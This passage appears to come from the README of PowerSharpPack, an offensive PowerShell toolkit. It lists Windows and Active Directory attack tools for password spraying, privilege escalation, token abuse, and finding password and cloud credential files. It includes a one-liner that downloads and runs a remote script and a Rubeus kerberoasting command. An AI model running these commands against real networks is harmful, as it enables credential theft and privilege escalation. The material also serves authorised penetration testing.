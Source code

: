  @Credit to: https://github.com/jnqpblc/SharpSpray

 **Watson**

 Enumerate missing KBs and suggest exploits for useful Privilege Escalation vulnerabilities
 
 @Credit to: https://github.com/rasta-mouse/Watson

 **Grouper2**

 Find vulnerabilities in AD Group Policy
 
 @Credit to: https://github.com/l0ss/Grouper2

 **Tokenvator**

 A tool to elevate privilege with Windows Tokens
 
 @Credit to: https://github.com/0xbadjuju/Tokenvator

 **SauronEye**

 Search tool to find specific files containing specific words, i.e. files containing passwords.
 
 @Credit to: https://github.com/vivami/SauronEye

Just load the main script with

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')`


and choose the tool as switch parameter for example:

`PowerSharpPack -seatbelt -Command "AMSIProviders"`

![alt text](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/raw/master/images/Example.JPG)

If you want to pass multiple parameters to the binary you can just use quotation marks like:

`PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`

If you dont want to load all binaries for reasons you can use the per binary Powershell scripts located in the PowerSharpBinaries folder.

Projects which are also available as standalone powershell script:

 **SharpCloud**

 Simple C# for checking for the existence of credential files related to AWS, Microsoft Azure, and Google Compute.
 
 @Credit to: https://github.com/chrismaddalena/SharpCloud

 **SharpSSDP**

 SSDP Service Discovery
 
 @Credit to: https://github.com/rvrsh3ll/SharpSSDP

 **DAFT**

 DAFT: Database Audit Framework & Toolkit
 